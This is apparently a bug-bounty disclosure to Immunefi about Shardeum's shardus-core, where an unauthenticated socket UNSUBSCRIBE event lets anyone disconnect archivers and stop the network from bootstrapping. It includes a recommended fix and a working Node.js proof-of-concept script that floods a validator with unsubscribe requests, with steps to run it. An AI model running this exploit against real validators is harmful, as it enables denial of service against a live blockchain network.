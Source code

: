 
# Preventing the network from loading by disconnecting the socket connection between validators and archivers

Submitted on Wed Jul 10 2024 03:05:58 GMT-0400 (Atlantic Standard Time) by @infosec_us_team for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33044

Report type: Blockchain/DLT

Report severity: Medium

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Network not being able to confirm new transactions (total network shutdown)

## Description
## Vulnerability Details

The socket connection in a Validator listens to an `UNSUBSCRIBE` event and expects the ARCHIVER_PUBLIC_KEY of an Archiver Server that wishes to unsubscribe.

```
socket.on('UNSUBSCRIBE', function(ARCHIVER_PUBLIC_KEY) {
    console.log(`Archive server has with public key ${ARCHIVER_PUBLIC_KEY} request to unsubscribe`)
    Archivers.removeArchiverConnection(ARCHIVER_PUBLIC_KEY)
})
```
> The "*removeArchiverConnection(...)*" function disconnects the socket connection with the Archiver Server.
>
> Code snippet from: https://github.com/shardeum/shardus-core/blob/dev/src/shardus/index.ts#L491-L494

Unfortunately, anyone can connect to the socket of a Validator and request the disconnection of any or all the currently connected Archive Servers.

In our tests, reproducing the attack while the first Validator is in the Syncing phase, prevents all other Validators from joining the network later, and after up to ~15 minutes of re-attempting, they all shut down themselves.

## Recommended fix

The **UNSUBSCRIBE** request must require a stringified object with the following fields:

**1-** The ARCHIVER_PUBLIC_KEY to disconnect

**2-** The signature of a message containing the IP address requesting the disconnection of the Archive Server.

**3-** A timestamp and nonce for the signature, to prevent replay attacks.

If a message containing the IP address that is requesting the disconnection is signed with the private key of the Archive Server, we can verify that this is an authorized request.

## Impact Details

A malicious agent can prevent the network from bootstrapping, which leads to the network not being able to confirm new transactions (total network shutdown).

> We haven't played around yet with disconnecting Archive Servers from Validators after the network is fully operational, but it could be a good experiment to see what goes wrong.




        
## Proof of concept
## Proof of Concept

As a proof of concept, we created a Node JS project, that connects to the socket of a Validator and requests to unsubscribe the Archive Server.

In the code below you must replace the IP address and PORT of the socket connection with yours (or let it the same if it applies to your setup as well). Finally, we hardcoded the public key of the Archive Server we want to disconnect but you can adapt the test to your needs.

```
// client.js
const io = require('socket.io-client');
const socket = io('http://192.168.0.15:9001');


socket.on('connect', () => {
	console.log('Connected to server');
	setInterval(() => {
		console.log('Sending message');
		socket.emit('UNSUBSCRIBE', '758b1c119412298802cd28dbfa394cdfeecc4074492d60844cc192d632d84de3');
	}, 1000);
});

socket.on('disconnect', () => {
	console.log('Disconnected from server');
});

socket.on('message', (msg) => {
	console.log('Message from server:', msg);
});
```

To execute the attack:

**Step 1-** Create a Node JS project with the code provided above in an `index.js` file.

**Step 2-** Start the network with `shardus start 20`

**Step 3-** As soon as you do, run the exploit with `node index.js` inside the Node JS project.